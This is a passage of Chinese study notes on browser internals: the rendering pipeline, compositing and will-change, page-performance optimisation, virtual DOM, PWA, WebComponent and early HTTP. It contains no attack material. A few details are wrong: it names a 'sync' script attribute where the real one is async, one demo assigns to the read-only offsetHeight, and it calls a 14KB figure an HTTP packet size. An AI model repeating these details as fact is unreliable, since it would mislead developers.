后面的流水线就和前面是一样的了，不管 CSS 文件和 JavaScript 文件谁先到达，都要先等到 CSS 文件下载完成并生成 CSSOM，然后再执行 JavaScript 脚本，最后再继续构建 DOM，构建布局树，绘制页面。

接下来，我们谈谈影响页面展示的因素以及优化策略

前面我们为什么要花这么多文字来分析渲染流水线呢？

主要原因就是渲染流水线影响到了首次页面展示的速度，而首次页面展示的速度又直接影响到了用户体验，所以我们分析渲染流水线的目的就是为了找出一些影响到首屏展示的因素，然后再基于这些因素做一些针对性的调整。

那么接下来我们就来看看从发起 URL 请求开始，到首次显示页面的内容，在视觉上经历的三个阶段。

1. 第一个阶段，等请求发出去之后，到提交数据阶段，这时页面展示出来的还是之前页面的内容。
2. 第二个阶段，提交数据之后渲染进程会创建一个空白页面，我们通常把这段时间称为解析白屏，并等待 CSS 文件和 JavaScript 文件的加载完成，生成 CSSOM 和 DOM，然后合成布局树，最后还要经过一系列的步骤准备首次渲染。
3. 第三个阶段，等首次渲染完成之后，就开始进入完整页面的生成阶段了，然后页面会一点点被绘制出来。

影响第一个阶段的因素主要是网络或者是服务器处理这块儿，前面文章中我们已经讲过了，这里我们就不再继续分析了。至于第三个阶段，我们会在后续文章中分析，所以这里也不做介绍了。

现在我们重点关注第二个阶段，这个阶段的主要问题是白屏时间，如果白屏时间过久，就会影响到用户体验。

为了缩短白屏时间，我们来挨个分析这个阶段的主要任务，包括了**解析 HTML、下载 CSS、下载 JavaScript、生成 CSSOM、执行 JavaScript、生成布局树、绘制页面一系列操作**。

通常情况下的瓶颈主要体现在**下载 CSS 文件、下载 JavaScript 文件和执行 JavaScript**。

所以要想缩短白屏时长，可以有以下策略：

- 通过内联 JavaScript、内联 CSS 来移除这两种类型的文件下载，这样获取到 HTML 文件之后就可以直接开始渲染流程了。
- 但并不是所有的场合都适合内联，那么还可以尽量减少文件大小，比如通过 webpack 等工具移除一些不必要的注释，并压缩 JavaScript 文件。
- 还可以将一些不需要在解析 HTML 阶段使用的 JavaScript 标记上 sync 或者 defer。
- 对于大的 CSS 文件，可以通过媒体查询属性，将其拆分为多个不同用途的 CSS 文件，这样只有在特定的场景下才会加载特定的 CSS 文件。

通过以上策略就能缩短白屏展示的时长了，不过在实际项目中，总是存在各种各样的情况，这些策略并不能随心所欲地去引用，所以还需要结合实际情况来调整最佳方案。

<br/>

## 24丨分层和合成机制：为什么CSS动画比JavaScript高效？

在上一篇文章中我们分析了 CSS 和 JavaScript 是如何影响到 DOM 树生成的，今天我们继续沿着渲染流水线向下分析，来聊聊 DOM 树之后所发生的事情

DOM 树生成之后，还要经历布局、分层、绘制、合成、显示等阶段后才能显示出漂亮的页面。

本文我们主要讲解渲染引擎的分层和合成机制，因为分层和合成机制代表了浏览器最为先进的合成技术。

我们先来了解：显示器是怎么显示图像的

每个显示器都有固定的刷新频率，通常是 60HZ，也就是每秒更新 60 张图片，更新的图片都来自于显卡中一个叫**前缓冲区**的地方，显示器所做的任务很简单，就是每秒固定读取 60 次前缓冲区中的图像，并将读取的图像显示到显示器上。

那么这里显卡做什么呢？

显卡的职责就是合成新的图像，并将图像保存到**后缓冲区**中，一旦显卡把合成的图像写到后缓冲区，系统就会让后缓冲区和前缓冲区互换，这样就能保证显示器能读取到最新显卡合成的图像。

大多数设备屏幕的更新频率是 60 次 / 秒，这也就意味着正常情况下要实现流畅的动画效果，渲染引擎需要每秒更新 60 张图片到显卡的后缓冲区。

我们把渲染流水线生成的每一副图片称为一帧，把渲染流水线每秒更新了多少帧称为帧率，比如滚动过程中 1 秒更新了 60 帧，那么帧率就是 60Hz（或者 60FPS）。

渲染引擎生成一帧图像的方式有三种：重排、重绘和合成。

这三种方式的渲染路径是不同的，**通常渲染路径越长，生成图像花费的时间就越多**。

其中重排和重绘操作都是在渲染进程的主线程上执行的，比较耗时；而合成操作是在渲染进程的合成线程上执行的，执行速度快，且不占用主线程。

- 重排，需要重新根据 CSSOM 和 DOM 来计算布局树，这样生成一幅图片时，会让整个渲染流水线的每个阶段都执行一遍，如果布局复杂的话，就很难保证渲染的效率了。
- 重绘因为没有了重新布局的阶段，操作效率稍微高点，但是依然需要重新计算绘制信息，并触发绘制操作之后的一系列操作。
- 合成操作的路径非常短，并不需要触发布局和绘制两个阶段，如果采用了 GPU，那么合成的效率会非常高。

所以，关于渲染引擎生成一帧图像的几种方式，按照效率我们推荐合成方式优先，若实在不能满足需求，那么就再退后一步使用重绘或者重排的方式。

本文我们的焦点在合成上，所以接下来我们就来深入分析下 Chrome 浏览器是怎么实现合成操作的。Chrome 中的合成技术，可以用三个词来概括总结：**分层、分块和合成**。

**分层、分块和合成**

通常页面的组成是非常复杂的，有的页面里要实现一些复杂的动画效果，比如点击菜单时弹出菜单的动画特效，滚动鼠标滚轮时页面滚动的动画效果，当然还有一些炫酷的 3D 动画特效。如果没有采用分层机制，从布局树直接生成目标图片的话，那么每次页面有很小的变化时，都会触发重排或者重绘机制，这种“牵一发而动全身”的绘制策略会严重影响页面的渲染效率。

为了提升每帧的渲染效率，Chrome 引入了分层和合成的机制。那该怎么来理解分层和合成机制呢？

你可以把一张网页想象成是由很多个图片叠加在一起的，每个图片就对应一个图层，Chrome 合成器最终将这些图层合成了用于显示页面的图片。

在这个过程中，将素材分解为多个图层的操作就称为分层，最后将这些图层合并到一起的操作就称为合成。所以，分层和合成通常是一起使用的。

理解了为什么要引入合成和分层机制，下面我们再来看看 Chrome 是怎么实现分层和合成机制的。

在 Chrome 的渲染流水线中，分层体现在生成布局树之后，渲染引擎会根据布局树的特点将其转换为层树（Layer Tree），层树是渲染流水线后续流程的基础结构。

层树中的每个节点都对应着一个图层，下一步的绘制阶段就依赖于层树中的节点。绘制阶段其实并不是真正地绘出图片，而是将绘制指令组合成一个列表。

有了绘制列表之后，就需要进入光栅化阶段了，光栅化就是按照绘制列表中的指令生成图片。每一个图层都对应一张图片，合成线程有了这些图片之后，会将这些图片合成为“一张”图片，并最终将生成的图片发送到后缓冲区。这就是一个大致的分层、合成流程。

需要重点关注的是，合成操作是在合成线程上完成的，这也就意味着在执行合成操作时，是不会影响到主线程执行的。这就是为什么经常主线程卡住了，但是 CSS 动画依然能执行的原因。

如果说分层是从宏观上提升了渲染效率，那么分块则是从微观层面提升了渲染效率。

通常情况下，页面的内容都要比屏幕大得多，显示一个页面时，如果等待所有的图层都生成完毕，再进行合成的话，会产生一些不必要的开销，也会让合成图片的时间变得更久。

因此，合成线程会将每个图层分割为大小固定的图块，然后优先绘制靠近视口的图块，这样就可以大大加速页面的显示速度。不过有时候， 即使只绘制那些优先级最高的图块，也要耗费不少的时间，因为涉及到一个很关键的因素——纹理上传，这是因为从计算机内存上传到 GPU 内存的操作会比较慢。

为了解决这个问题，Chrome 又采取了一个策略：在首次合成图块的时候使用一个低分辨率的图片。比如可以是正常分辨率的一半，分辨率减少一半，纹理就减少了四分之三。在首次显示页面内容的时候，将这个低分辨率的图片显示出来，然后合成器继续绘制正常比例的网页内容，当正常比例的网页内容绘制完成后，再替换掉当前显示的低分辨率内容。这种方式尽管会让用户在开始时看到的是低分辨率的内容，但是也比用户在开始时什么都看不到要好。

**如何利用分层技术优化代码**

在写 Web 应用的时候，你可能经常需要对某个元素做几何形状变换、透明度变换或者一些缩放操作，如果使用 JavaScript 来写这些效果，会牵涉到整个渲染流水线，所以 JavaScript 的绘制效率会非常低下。

这时你可以使用 will-change 来告诉渲染引擎你会对该元素做一些特效变换，CSS 代码如下：

```css
.box {
  will-change: transform, opacity;
}
```

这段代码就是提前告诉渲染引擎 box 元素将要做几何变换和透明度变换操作，这时候渲染引擎会将该元素单独实现一帧，等这些变换发生时，渲染引擎会通过合成线程直接去处理变换，这些变换并没有涉及到主线程，这样就大大提升了渲染的效率。这也是 CSS 动画比 JavaScript 动画高效的原因。

所以，如果涉及到一些可以使用合成线程来处理 CSS 特效或者动画的情况，就尽量使用 will-change 来提前告诉渲染引擎，让它为该元素准备独立的层。但是凡事都有两面性，每当渲染引擎为一个元素准备一个独立层的时候，它占用的内存也会大大增加，因为从层树开始，后续每个阶段都会多一个层结构，这些都需要额外的内存，所以你需要恰当地使用 will-change。


<br/>

## 25丨页面性能：如何系统地优化页面？

我们分析了页面加载和 DOM 生成，讨论了 JavaScript 和 CSS 是如何影响到 DOM 生成的，还结合渲染流水线来讲解了分层和合成机制，同时在这些文章里面，我们还穿插说明了很多优化页面性能的最佳实践策略。通过这些知识点的学习，相信你已经知道渲染引擎是怎么绘制出帧的。

不过之前我们介绍的内容比较零碎、比较散，那么今天我们就来将这些内容系统性地串起来。

那么怎么才能把这些知识点串起来呢？我的思路是从如何系统优化页面速度的角度来切入。

这里我们所谈论的页面优化，其实就是要**让页面更快地显示和响应**。由于一个页面在它不同的阶段，所侧重的关注点是不一样的，所以如果我们要讨论页面优化，就要分析一个页面生存周期的不同阶段。

通常一个页面有三个阶段：加载阶段、交互阶段和关闭阶段。

- 加载阶段，是指从发出请求到渲染出完整页面的过程，影响到这个阶段的主要因素有网络和 JavaScript 脚本。
- 交互阶段，主要是从页面加载完成到用户交互的整合过程，影响到这个阶段的主要因素是 JavaScript 脚本。
- 关闭阶段，主要是用户发出关闭指令后页面所做的一些清理操作。

这里我们需要重点关注加载阶段和交互阶段，因为影响到我们体验的因素主要都在这两个阶段，下面我们就来逐个详细分析下。

**加载阶段**

在加载阶段，核心的优化原则是：优化关键资源的加载速度，减少关键资源的个数，降低关键资源的 RTT 次数。

我们先来分析如何系统优化加载阶段中的页面，还是先看一个典型的渲染流水线，如下图所示：

<br/>

<br/>

非关键资源不会阻塞页面的首次绘制，比如图片、音频、视频等

关键资源会阻塞页面的首次绘制，比如 JavaScript、 HTML 、CSS ，因为在构建 DOM 的过程中需要 HTML 和 JavaScript 文件，在构造渲染树的过程中需要用到 CSS 文件。

基于关键资源，我们可以继续细化出来三个影响页面首次渲染的核心因素。

第一个是关键资源个数。关键资源个数越多，首次页面的加载时间就会越长。比如上图中的关键资源个数就是 3 个，1 个 HTML 文件、1 个 JavaScript 和 1 个 CSS 文件。

第二个是关键资源大小。通常情况下，所有关键资源的内容越小，其整个资源的下载时间也就越短，那么阻塞渲染的时间也就越短。上图中关键资源的大小分别是 6KB、8KB 和 9KB，那么整个关键资源大小就是 23KB。

第三个是请求关键资源需要多少个 RTT（Round Trip Time）。那什么是 RTT 呢？ 在《02 | TCP 协议：如何保证页面文件能被完整送达浏览器？》这篇文章中我们分析过，当使用 TCP 协议传输一个文件时，比如这个文件大小是 0.1M，由于 TCP 的特性，这个数据并不是一次传输到服务端的，而是需要拆分成一个个数据包来回多次进行传输的。RTT 就是这里的往返时延。它是网络中一个重要的性能指标，表示从发送端发送数据开始，到发送端收到来自接收端的确认，总共经历的时延。通常 1 个 HTTP 的数据包在 14KB 左右，所以 1 个 0.1M 的页面就需要拆分成 8 个包来传输了，也就是说需要 8 个 RTT。

我们可以结合上图来看看它的关键资源请求需要多少个 RTT。首先是请求 HTML 资源，大小是 6KB，小于 14KB，所以 1 个 RTT 就可以解决了。至于 JavaScript 和 CSS 文件，这里需要注意一点，由于渲染引擎有一个预解析的线程，在接收到 HTML 数据之后，预解析线程会快速扫描 HTML 数据中的关键资源，一旦扫描到了，会立马发起请求，你可以认为 JavaScript 和 CSS 是同时发起请求的，所以它们的请求是重叠的，那么计算它们的 RTT 时，只需要计算体积最大的那个数据就可以了。这里最大的是 CSS 文件（9KB），所以我们就按照 9KB 来计算，同样由于 9KB 小于 14KB，所以 JavaScript 和 CSS 资源也就可以算成 1 个 RTT。也就是说，上图中关键资源请求共花费了 2 个 RTT。

了解了影响加载过程中的几个核心因素之后，接下来我们就可以系统性地考虑优化方案了。总的优化原则就是**减少关键资源个数，降低关键资源大小，降低关键资源的 RTT 次数**。

- 如何减少关键资源的个数？一种方式是可以将 JavaScript 和 CSS 改成内联的形式，比如上图的 JavaScript 和 CSS，若都改成内联模式，那么关键资源的个数就由 3 个减少到了 1 个。另一种方式，如果 JavaScript 代码没有 DOM 或者 CSSOM 的操作，则可以改成 sync 或者 defer 属性；同样对于 CSS，如果不是在构建页面之前加载的，则可以添加媒体取消阻止显现的标志。当 JavaScript 标签加上了 sync 或者 defer、CSSlink 属性之前加上了取消阻止显现的标志后，它们就变成了非关键资源了。
- 如何减少关键资源的大小？可以压缩 CSS 和 JavaScript 资源，移除 HTML、CSS、JavaScript 文件中一些注释内容，也可以通过前面讲的取消 CSS 或者 JavaScript 中关键资源的方式。
- 如何减少关键资源 RTT 的次数？可以通过减少关键资源的个数和减少关键资源的大小搭配来实现。除此之外，还可以使用 CDN 来减少每次 RTT 时长。

在优化实际的页面加载速度时，你可以先画出优化之前关键资源的图表，然后按照上面优化关键资源的原则去优化，优化完成之后再画出优化之后的关键资源图表。


**交互阶段**

在交互阶段，核心的优化原则是：尽量减少一帧的生成时间。可以通过减少单次 JavaScript 的执行时间、避免强制同步布局、避免布局抖动、尽量采用 CSS 的合成动画、避免频繁的垃圾回收等方式来减少一帧生成的时长。

我们先来看看交互阶段的渲染流水线（如下图）。和加载阶段的渲染流水线有一些不同的地方是，在交互阶段没有了加载关键资源和构建 DOM、CSSOM 流程，通常是由 JavaScript 触发交互动画的。

<br/>

<br/>

大部分情况下，生成一个新的帧都是由 JavaScript 通过修改 DOM 或者 CSSOM 来触发的。还有另外一部分帧是由 CSS 来触发的。

如果在计算样式阶段发现有布局信息的修改，那么就会触发重排操作，然后触发后续渲染流水线的一系列操作，这个代价是非常大的。

同样如果在计算样式阶段没有发现有布局信息的修改，只是修改了颜色一类的信息，那么就不会涉及到布局相关的调整，所以可以跳过布局阶段，直接进入绘制阶段，这个过程叫重绘。不过重绘阶段的代价也是不小的。

还有另外一种情况，通过 CSS 实现一些变形、渐变、动画等特效，这是由 CSS 触发的，并且是在合成线程上执行的，这个过程称为合成。因为它不会触发重排或者重绘，而且合成操作本身的速度就非常快，所以执行合成是效率最高的方式。

回顾了在交互过程中的帧是如何生成的，那接下来我们就可以讨论优化方案了。一个大的原则就是**让单个帧的生成速度变快**。

所以，下面我们就来分析下在交互阶段渲染流水线中有哪些因素影响了帧的生成速度以及如何去优化。

1. 减少 JavaScript 脚本执行时间

有时 JavaScript 函数的一次执行时间可能有几百毫秒，这就严重霸占了主线程执行其他渲染任务的时间。针对这种情况我们可以采用以下两种策略：

- 一种是将一次执行的函数分解为多个任务，使得每次的执行时间不要过久。
- 另一种是采用 Web Workers。你可以把 Web Workers 当作主线程之外的一个线程，在 Web Workers 中是可以执行 JavaScript 脚本的，不过 Web Workers 中没有 DOM、CSSOM 环境，这意味着在 Web Workers 中是无法通过 JavaScript 来访问 DOM 的，所以我们可以把一些和 DOM 操作无关且耗时的任务放到 Web Workers 中去执行。

总之，在交互阶段，对 JavaScript 脚本总的原则就是不要一次霸占太久主线程。

2. 避免强制同步布局

在介绍强制同步布局之前，我们先来聊聊正常情况下的布局操作。通过 DOM 接口执行添加元素或者删除元素等操作后，是需要重新计算样式和布局的，不过正常情况下这些操作都是在另外的任务中异步完成的，这样做是为了避免当前的任务占用太长的主线程时间。为了直观理解，你可以参考下面的代码：

```html
<html>
<body>
    <div id="mian_div">
        <li id="time_li">time</li>
        <li>geekbang</li>
    </div>

    <p id="demo"> 强制布局 demo</p>
    <button onclick="foo()"> 添加新元素 </button>

    <script>
        function foo() {
            let main_div = document.getElementById("mian_div")
            let new_node = document.createElement("li")
            let textnode = document.createTextNode("time.geekbang")
            new_node.appendChild(textnode);
            document.getElementById("mian_div").appendChild(new_node);
        }
    </script>
</body>
</html>
```

对于上面这段代码，我们可以使用 Performance 工具来记录添加元素的过程，如下图所示：

<br/>

<br/>

从图中可以看出来，执行 JavaScript 添加元素是在一个任务中执行的，重新计算样式布局是在另外一个任务中执行，这就是正常情况下的布局操作。

理解了正常情况下的布局操作，接下来我们就可以聊什么是强制同步布局了。

所谓强制同步布局，是指 JavaScript 强制将计算样式和布局操作提前到当前的任务中。为了直观理解，这里我们对上面的代码做了一点修改，让它变成强制同步布局，修改后的代码如下所示：

```js
function foo() {
    let main_div = document.getElementById("mian_div")
    let new_node = document.createElement("li")
    let textnode = document.createTextNode("time.geekbang")
    new_node.appendChild(textnode);
    document.getElementById("mian_div").appendChild(new_node);
    // 由于要获取到 offsetHeight，
    // 但是此时的 offsetHeight 还是老的数据，
    // 所以需要立即执行布局操作
    console.log(main_div.offsetHeight)
}
```

将新的元素添加到 DOM 之后，我们又调用了main_div.offsetHeight来获取新 main_div 的高度信息。如果要获取到 main_div 的高度，就需要重新布局，所以这里在获取到 main_div 的高度之前，JavaScript 还需要强制让渲染引擎默认执行一次布局操作。我们把这个操作称为强制同步布局。

同样，你可以看下面通过 Performance 记录的任务状态：

<br/>

<br/>

从上图可以看出来，计算样式和布局都是在当前脚本执行过程中触发的，这就是强制同步布局。

为了避免强制同步布局，我们可以调整策略，在修改 DOM 之前查询相关值。代码如下所示：

```js
function foo() {
    let main_div = document.getElementById("mian_div")
    // 为了避免强制同步布局，在修改 DOM 之前查询相关值
    console.log(main_div.offsetHeight)
    let new_node = document.createElement("li")
    let textnode = document.createTextNode("time.geekbang")
    new_node.appendChild(textnode);
    document.getElementById("mian_div").appendChild(new_node);

}
```

3. 避免布局抖动

还有一种比强制同步布局更坏的情况，那就是布局抖动。所谓布局抖动，是指在一次 JavaScript 执行过程中，多次执行强制布局和抖动操作。为了直观理解，你可以看下面的代码：

```js
function foo() {
    let time_li = document.getElementById("time_li")
    for (let i = 0; i < 100; i++) {
        let main_div = document.getElementById("mian_div")
        let new_node = document.createElement("li")
        let textnode = document.createTextNode("time.geekbang")
        new_node.appendChild(textnode);
        new_node.offsetHeight = time_li.offsetHeight;
        document.getElementById("mian_div").appendChild(new_node);
    }
}
```

我们在一个 for 循环语句里面不断读取属性值，每次读取属性值之前都要进行计算样式和布局。执行代码之后，使用 Performance 记录的状态如下所示：

<br/>

<br/>

从上图可以看出，在 foo 函数内部重复执行计算样式和布局，这会大大影响当前函数的执行效率。这种情况的避免方式和强制同步布局一样，都是尽量不要在修改 DOM 结构时再去查询一些相关值。

4. 合理利用 CSS 合成动画

合成动画是直接在合成线程上执行的，这和在主线程上执行的布局、绘制等操作不同，如果主线程被 JavaScript 或者一些布局任务占用，CSS 动画依然能继续执行。所以要尽量利用好 CSS 合成动画，如果能让 CSS 处理动画，就尽量交给 CSS 来操作。

另外，如果能提前知道对某个元素执行动画操作，那就最好将其标记为 will-change，这是告诉渲染引擎需要将该元素单独生成一个图层。

5. 避免频繁的垃圾回收

我们知道 JavaScript 使用了自动垃圾回收机制，如果在一些函数中频繁创建临时对象，那么垃圾回收器也会频繁地去执行垃圾回收策略。这样当垃圾回收操作发生时，就会占用主线程，从而影响到其他任务的执行，严重的话还会让用户产生掉帧、不流畅的感觉。

所以要尽量避免产生那些临时垃圾数据。那该怎么做呢？可以尽可能优化储存结构，尽可能避免小颗粒对象的产生。


<br/>

## 26丨虚拟DOM：虚拟DOM和实际的DOM有何不同？

我们会先聊聊 DOM 的一些缺陷

我们已经知道，通过 JavaScript 操纵 DOM 是会影响到整个渲染流水线的

比如，我们可以调用 `document.body.appendChild(node)` 往 body 节点上添加一个元素，调用该 API 之后会引发一系列的连锁反应。

首先渲染引擎会将 node 节点添加到 body 节点之上，然后触发样式计算、布局、绘制、栅格化、合成等任务，我们把这一过程称为重排。

除了重排之外，还有可能引起重绘或者合成操作，形象地理解就是“牵一发而动全身”。

另外，对于 DOM 的不当操作还有可能引发强制同步布局和布局抖动的问题，这些操作都会大大降低渲染效率。

因此，对于 DOM 的操作我们时刻都需要非常小心谨慎

但是对于一些复杂的页面或者目前使用非常多的单页应用来说，其 DOM 结构是非常复杂的，执行一次重排或者重绘操作都是非常耗时的，这就给我们带来了真正的性能问题。

所以我们需要有一种方式来减少 JavaScript 对 DOM 的操作，这时候虚拟 DOM 就上场了。

接下来，我们要介绍虚拟 DOM 是如何解决这些缺陷的，

- 将页面改变的内容应用到虚拟 DOM 上，而不是直接应用到 DOM 上。
- 变化被应用到虚拟 DOM 上时，虚拟 DOM 并不急着去渲染页面，而仅仅是调整虚拟 DOM 的内部状态，这样操作虚拟 DOM 的代价就变得非常轻了。
- 在虚拟 DOM 收集到足够的改变时，再把这些变化一次性应用到真实的 DOM 上。

以上都从单纯的技术视角来分析虚拟 DOM 的，那接下来我们再从双缓存和 MVC 模型这两个视角来聊聊虚拟 DOM。

**双缓存**

这里以图像显示为例，图像处理过程中，屏幕从前缓冲区读取数据然后显示。但是很多图形操作都很复杂且需要大量的运算，如果每次计算完一部分图像，就将其写入缓冲区，那么就会造成一个后果，那就是在显示一个稍微复杂点的图像的过程中，你看到的页面效果可能是一部分一部分地显示出来，因此在刷新页面的过程中，会让用户感受到界面的闪烁。

而使用双缓存，可以让你先将计算的中间结果存放在另一个缓冲区中，等全部的计算结束，该缓冲区已经存储了完整的图形之后，再将该缓冲区的图形数据一次性复制到显示缓冲区，这样就使得整个图像的输出非常稳定。

在这里，你可以把虚拟 DOM 看成是 DOM 的一个 buffer，和图形显示一样，它会在完成一次完整的操作之后，再把结果应用到 DOM 上，这样就能减少一些不必要的更新，同时还能保证 DOM 的稳定输出。

双缓存是一种经典的思路，应用在很多场合，能解决页面无效刷新和闪屏的问题，虚拟 DOM 就是双缓存思想的一种体现。

**MVC 模式**

接下来我们再来看看虚拟 DOM 在 MVC 模式中所扮演的角色。

在各大设计模式当中，MVC 是一个非常重要且应用广泛的模式，因为它能将数据和视图进行分离，在涉及到一些复杂的项目时，能够大大减轻项目的耦合度，使得程序易于维护。

以 React 为例，在项目中结合 Redux 就可以构建一个 MVC 的模型结构，如下图所示：

<br/>

<br/>

在该图中，我们可以把虚拟 DOM 看成是 MVC 的视图部分，其控制器和模型都是由 Redux 提供的。其具体实现过程如下：

- 图中的控制器是用来监控 DOM 的变化，一旦 DOM 发生变化，控制器便会通知模型，让其更新数据；
- 模型数据更新好之后，控制器会通知视图，告诉它模型的数据发生了变化；
- 视图接收到更新消息之后，会根据模型所提供的数据来生成新的虚拟 DOM；
- 新的虚拟 DOM 生成好之后，就需要与之前的虚拟 DOM 进行比较，找出变化的节点；
- 比较出变化的节点之后，React 将变化的虚拟节点应用到 DOM 上，这样就会触发 DOM 节点的更新；
- DOM 节点的变化又会触发后续一系列渲染流水线的变化，从而实现页面的更新。

基于 MVC 的设计思想也广泛地渗透到各种场合，并且基于 MVC 又衍生出了很多其他模式（如 MVP、MVVM 等），不过万变不离其宗，它们的基础骨架都是基于 MVC 而来。站在 MVC 视角来理解虚拟 DOM 能让你看到更为“广阔的世界”。


<br/>

## 27丨渐进式网页应用（PWA）：它究竟解决了Web应用的哪些问题？

我们先分析了 PWA，它是由很多技术组成的一个理念，其核心思想是渐进式。

对于开发者，它提供了非常温和的方式，让开发者将普通的站点逐步过渡到 Web 应用。

对于技术本身而言，它是渐进式演进，逐渐将 Web 技术发挥到极致的同时，也逐渐缩小和本地应用的差距。

我给 PWA 的定义就是：**它是一套理念，渐进式增强 Web 的优势，并通过技术手段渐进式缩短和本地应用或者小程序的距离**。基于这套理念之下的技术都可以归类到 PWA。

那相对于本地应用，Web 页面到底缺少了什么？

- 首先，Web 应用缺少离线使用能力
- 其次，Web 应用缺少了消息推送的能力
- 最后，Web 应用缺少一级入口

针对以上 Web 缺陷，PWA 提出了两种解决方案：**通过引入 Service Worker 来试着解决离线存储和消息推送的问题，通过引入 manifest.json 来解决一级入口的问题**。

PWA 提供了 manifest.json 配置文件，可以让开发者自定义桌面的图标、显示名称、启动方式等信息，还可以设置启动画面、页面主题颜色等信息。

接下来，我们来分析 PWA 中的 Service Worker 的设计思路。

Service Worker 的主要思想是**在页面和网络之间增加一个拦截器，用来缓存和拦截请求**。

安装了 Service Worker 模块之后，WebApp 请求资源时，会先通过 Service Worker，让它判断是返回 Service Worker 缓存的资源还是重新去网络请求资源。一切的控制权都交由 Service Worker 来处理。

Service Worker 的设计思路，其实是源于 Web Worker 。

**“让其运行在主线程之外”就是 Service Worker 来自 Web Worker 的一个核心思想**。

不过 Web Worker 是临时的，每次 JavaScript 脚本执行完成之后都会退出，执行结果也不能保存下来，如果下次还有同样的操作，就还得重新来一遍。

所以 Service Worker 需要在 Web Worker 的基础之上加上储存功能。

另外，由于 Service Worker 还需要会为多个页面提供服务，所以**还不能把 Service Worker 和单个页面绑定起来**。

在目前的 Chrome 架构中，Service Worker 是运行在浏览器进程中的，因为浏览器进程生命周期是最长的，所以在浏览器的生命周期内，能够为所有的页面提供服务。

消息推送也是基于 Service Worker 来实现的。

因为消息推送时，浏览器页面也许并没有启动，这时就需要 Service Worker 来接收服务器推送的消息，并将消息通过一定方式展示给用户。

最后，要使站点支持 Service Worker，首先必要的一步就是要将站点升级到 HTTPS，这是出于安全考虑。

添加桌面标、增加离线缓存、增加消息推送等功能是 PWA 走向设备的必备功能，但我认为真正决定 PWA 能否崛起的还是底层技术，比如页面渲染效率、对系统设备的支持程度、WebAssembly 等，而这些技术也在渐进式进化过程中。所以未来如何，我们拭目以待。


<br/>

## 28丨WebComponent：像搭积木一样构建Web应用

首先，我们介绍了组件化开发是程序员的刚需，所谓组件化就是功能模块要实现高内聚、低耦合的特性。

不过由于 DOM 和 CSSOM 都是全局的，所以它们是影响了前端组件化的主要元素。

基于这个原因，就出现 WebComponent，它包含**自定义元素、影子 DOM 和 HTML 模板**三种技术，使得开发者可以隔离 CSS 和 DOM。

下面我们就来演示下这 3 个技术是怎么实现数据封装的，如下面代码所示：

```html
<!DOCTYPE html>
<html>
  <body>
    <!--
      一：定义模板
      二：定义内部 CSS 样式
      三：定义 JavaScript 行为
    -->
    <template id="geekbang-t">
      <style>
        p {
          background-color: brown;
          color: cornsilk;
        }

        div {
          width: 200px;
          background-color: bisque;
          border: 3px solid chocolate;
          border-radius: 10px;
        }
      </style>
      <div>
        <p>333time.geekbang.org</p>
        <p>444time1.geekbang.org</p>
      </div>
      <script>
        function foo() {
          console.log('inner log');
        }
      </script>
    </template>
    <script>
      class GeekBang extends HTMLElement {
        constructor() {
          super();
          // 获取组件模板
          const content = document.querySelector('#geekbang-t').content;
          // 创建影子 DOM 节点
          const shadowDOM = this.attachShadow({ mode: 'open' });
          // 将模板添加到影子 DOM 上
          shadowDOM.appendChild(content.cloneNode(true));
        }
      }
      customElements.define('geek-bang', GeekBang);
    </script>

    <geek-bang></geek-bang>
    <div>
      <p>11time.geekbang.org</p>
      <p>22time1.geekbang.org</p>
    </div>
    <geek-bang></geek-bang>
  </body>
</html>
```

要使用 WebComponent，通常要实现下面三个步骤。

**首先，使用 template 属性来创建模板**。模板元素不会被渲染到页面上。一般模板定义好之后，我们还需要在模板的内部定义样式信息。

其次，我们需要创建一个 GeekBang 的类。在该类的构造函数中要完成三件事：

- 查找模板内容；
- 创建影子 DOM；
- 再将模板添加到影子 DOM 上。

影子 DOM 的作用是将模板中的内容与全局 DOM 和 CSS 进行隔离，这样我们就可以实现元素和样式的私有化了。

你可以把影子 DOM 看成是一个作用域，其内部的样式和元素是不会影响到全局的样式和元素的，而在全局环境下，要访问影子 DOM 内部的样式或者元素也是需要通过约定好的接口的。

总之，通过影子 DOM，我们就实现了 CSS 和元素的封装，在创建好封装影子 DOM 的类之后，我们就可以使用 `customElements.define` 来自定义元素了。

最后，就很简单了，可以像正常使用 HTML 元素一样使用该元素，如上述代码中的`<geek-bang></geek-bang>`。

通过影子 DOM 可以隔离 CSS 和 DOM，不过需要注意一点，影子 DOM 的 JavaScript 脚本是不会被隔离的，比如在影子 DOM 定义的 JavaScript 函数依然可以被外部访问，这是因为 JavaScript 语言本身已经可以很好地实现组件化了。

在此基础上，我们要重点介绍影子 DOM 到底是怎么实现的。

影子 DOM 的作用主要有以下两点：

- 影子 DOM 中的元素对于整个网页是不可见的；
- 影子 DOM 的 CSS 不会影响到整个网页的 CSSOM，影子 DOM 内部的 CSS 只对内部的元素起作用。

那么浏览器是如何实现影子 DOM 的呢？下面我们就来分析下，如下图：

<br/>

<br/>

该图是上面那段示例代码对应的 DOM 结构图，从图中可以看出，我们使用了两次 geek-bang 属性，那么就会生成两个影子 DOM，并且每个影子 DOM 都有一个 shadow root 的根节点，我们可以将要展示的样式或者元素添加到影子 DOM 的根节点上，每个影子 DOM 你都可以看成是一个独立的 DOM，它有自己的样式、自己的属性，内部样式不会影响到外部样式，外部样式也不会影响到内部样式。

浏览器为了实现影子 DOM 的特性，在代码内部做了大量的条件判断，比如当通过 DOM 接口去查找元素时，渲染引擎会去判断 geek-bang 属性下面的 shadow-root 元素是否是影子 DOM，如果是影子 DOM，那么就直接跳过 shadow-root 元素的查询操作。所以这样通过 DOM API 就无法直接查询到影子 DOM 的内部元素了。

另外，当生成布局树的时候，渲染引擎也会判断 geek-bang 属性下面的 shadow-root 元素是否是影子 DOM，如果是，那么在影子 DOM 内部元素的节点选择 CSS 样式的时候，会直接使用影子 DOM 内部的 CSS 属性。所以这样最终渲染出来的效果就是影子 DOM 内部定义的样式。

<br>

# 浏览器中的网络

<br/>

## 29丨HTTP-1：HTTP性能优化

HTTP 是浏览器中最重要且使用最多的协议，是浏览器和服务器之间的通信语言，也是互联网的基石。

我们先从需求演变的角度追溯 HTTP 的发展史。

首先我们来看看诞生最早的 HTTP/0.9。HTTP/0.9 的一个完整的请求流程如下：

- 因为 HTTP 都是基于 TCP 协议的，所以客户端先要根据 IP 地址、端口和服务器建立 TCP 连接，而建立连接的过程就是 TCP 协议三次握手的过程。
- 建立好连接之后，会发送一个 GET 请求行的信息，如GET /index.html用来获取 index.html。
- 服务器接收请求信息之后，读取对应的 HTML 文件，并将数据以 ASCII 字符流返回给客户端。
- HTML 文档传输完成后，断开连接。

